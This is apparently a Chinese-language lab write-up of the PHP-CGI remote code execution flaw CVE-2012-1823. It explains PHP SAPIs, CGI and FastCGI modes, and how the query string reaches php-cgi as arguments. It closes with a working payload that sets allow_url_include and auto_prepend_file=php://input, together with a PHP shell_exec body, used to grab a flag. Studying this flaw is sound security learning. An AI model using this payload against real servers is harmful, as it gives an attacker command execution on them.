



# PHP-CGI远程代码执行

## 漏洞概述

## 复现

### PHP SAPI 与运行模式

在 PHP 源码中，有一个目录叫 sapi。sapi 在 PHP 中的作用，类似一个消息的“传递者”，（PHP-FPM中的fpm，其作用就是接受 web 容器通过 fastcgi 协议封装好的数据，交给PHP解释器执行；除了fpm，最常见的sapi应该是用于 Apache 的 mod_php，这个sapi用于 php 和 apache 之间的数据交换。）
　　php-cgi 也是一个 sapi。在远古的时候，web 应用的运行方式很简单，web 容器接收到 http 数据包后，拿到用户请求的文件（cgi 脚本），并 fork 出一个子进程（解释器）去执行这个文件，然后拿到执行结果，直接返回给用户，同时这个解释器子进程也就结束了。基于 bash、perl 等语言的 web 应用多半都是以这种方式来执行，这种执行方式一般就被称为cgi，在安装 Apache 的时候默认有一个 cgi-bin 目录，最早就是放置这些 cgi 脚本用的。
　　但 cgi 模式有个致命的缺点，众所周知，进程的创建和调度都是有一定消耗的，而且进程的数量也不是无限的。所以，基于 cgi 模式运行的网站通常不能同时接受大量请求，否则每个请求生成一个子进程，就有可能把服务器挤爆。于是后来就有了 fastcgi，fastcgi 进程可以将自己一直运行在后台，并通过 fastcgi 协议接受数据包，执行后返回结果，但自身并不退出。php 有一个叫 php-cgi 的 sapi，php-cgi 有两个功能，一是提供 cgi 方式的交互，二是提供 fastcgi 方式的交互。也就说，我们可以像 perl 一样，让 web 容器直接 fork 一个 php-cgi 进程执行某脚本；也可以在后台运行 php-cgi -b 127.0.0.1:9000（ php-cgi 作为 fastcgi 的管理器），并让 web 容器用 fastcgi 协议和9000交互。
　　那我之前说的 fpm 又是什么呢？为什么 php 有两个 fastcgi 管理器？php 确实有两个 fastcgi 管理器，php-cgi 可以以 fastcgi 模式运行，fpm 也是以 fastcgi 模式运行。但 fpm 是 php 在5.3版本以后引入的，是一个更高效的 fastcgi 管理器，所以现在越来越多的 web 应用使用 php-fpm 去运行 php。

　　CVE-2012-1823 就是 php-cgi 这个 sapi 出现的漏洞，我上面介绍了php-cgi 提供的两种运行方式：cgi 和 fastcgi，本漏洞只出现在以 cgi 模式运行的 php 中。这个漏洞简单来说，就是用户请求的 querystring 被作为了 php-cgi 的参数，最终导致了一系列结果。探究一下原理，RFC3875 中规定，当querystring 中不包含没有解码的=号的情况下，要将 querystring 作为 cgi 的参数传入。所以，Apache 服务器按要求实现了这个功能。

CGI模式下的参数：

- -c 指定php.ini文件的位置
- -n 不要加载php.ini文件
- -d 指定配置项
- -b 启动fastcgi进程
- -s 显示文件源码
- -T 执行指定次该文件
- -h和-？ 显示帮助

首先打开靶场

访问 index.php?-s 显示源码，证明存在代码执行

-d 执行命令，然后查看 tmp 拿到 Flag

`?-d+allow_url_include%3don+-d+auto_prepend_file%3dphp%3a//input`

`<?php echo shell_exec('id');?>`

